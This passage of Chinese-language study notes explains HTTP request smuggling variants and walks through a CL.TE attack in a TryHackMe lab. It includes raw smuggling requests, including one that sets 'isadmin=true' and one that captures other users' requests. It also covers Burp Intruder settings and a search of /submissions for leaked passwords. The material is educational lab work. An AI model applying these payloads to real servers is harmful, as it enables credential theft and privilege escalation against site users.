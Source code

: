     4e # 假设一个服务器按这个分块处理 (78字节)
    POST /update HTTP/1.1
    Host: example.com
    Content-length: 15 # 走私请求的CL

    isadmin=true
    0
    ```
    *   **场景1 (导致CL.TE):** 前端忽略所有TE头（由于第二个TE头无效），使用 `Content-Length: 4`。后端处理第一个 `Transfer-Encoding: chunked`。
    *   **场景2 (导致TE.CL):** 前端处理第一个 `Transfer-Encoding: chunked`。后端忽略所有TE头，使用 `Content-Length: 4`。
    *   **场景3 (TE解析差异):** 两个服务器都处理 `Transfer-Encoding`，但对畸形头部的处理方式导致它们对实际块的边界有不同理解。

## 演示 (Demonstration - 基于原文THM示例)

以下步骤概述了在 `httprequestsmuggling.thm` 靶场环境中利用 CL.TE 漏洞的过程。

1.  **基准请求:** 使用 Burp Suite 代理拦截一个发往网站的正常 `POST` 请求（例如，提交表单）。
2.  **构造Payload (CL.TE):** 将请求发送到 Burp Intruder，并修改为如下结构：
    ```
    POST / HTTP/1.1
    Host: httprequestsmuggling.thm
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 160 # 前端读取160字节 (需要精确计算)
    Transfer-Encoding: chunked

    0 # 后端认为第一个请求在此结束

    # 被走私的请求 (目标是contact.php)
    POST /contact.php HTTP/1.1
    Host: httprequestsmuggling.thm
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 500 # 一个足够大的值，或者精确计算

    username=test&query=§PAYLOAD§
    ```
    *   `Content-Length: 160`: 前端代理会读取从 `0\r\n\r\nPOST /contact.php...` 开始的160字节。
    *   `Transfer-Encoding: chunked` 和随后的 `0`: 后端服务器会在此处结束第一个请求。
    *   `POST /contact.php ...`: 这是被走私的请求。`§PAYLOAD§` 是 Intruder 的 payload 标记。
3.  **Intruder 配置:**
    *   **Payload Type:** Null payloads.
    *   **Payload Settings:** 生成大量（如10000个）空 payload。这是为了持续发送请求，希望能夹带其他用户的请求。
    *   **Resource Pool:** 创建新资源池，设置线程数（如10个），延迟（如2000ms）和随机变化。
4.  **发起攻击:** 点击 "Start attack"。
5.  **检查结果:**
    *   几分钟后，访问 `/submissions` 目录（假设提交的查询保存在此）。
    *   如果攻击成功，`contact.php` 的请求（由攻击者走私）可能会捕获到其他正常用户提交到 `/` (主POST请求) 的数据，这些数据会被附加到 `query=` 参数的末尾。
    *   遍历 `/submissions` 中的文本文件，查找被附加到 `query` 参数中的敏感信息（如密码）。
    *   **注意:** 在走私生效期间，如果攻击者自己访问易受攻击的应用程序，可能会捕获到自己的请求，而不是目标用户的。

## 注意事项 (Important Notes)
